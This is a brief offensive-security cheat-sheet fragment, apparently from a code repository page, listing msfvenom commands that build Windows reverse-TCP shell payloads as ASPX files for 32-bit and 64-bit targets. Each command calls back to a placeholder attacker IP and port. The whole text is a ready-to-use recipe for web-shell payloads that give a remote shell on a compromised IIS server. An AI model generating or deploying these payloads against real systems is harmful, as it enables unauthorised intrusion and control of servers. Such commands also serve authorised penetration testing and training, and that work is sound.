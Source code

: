 # ASPX

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx`
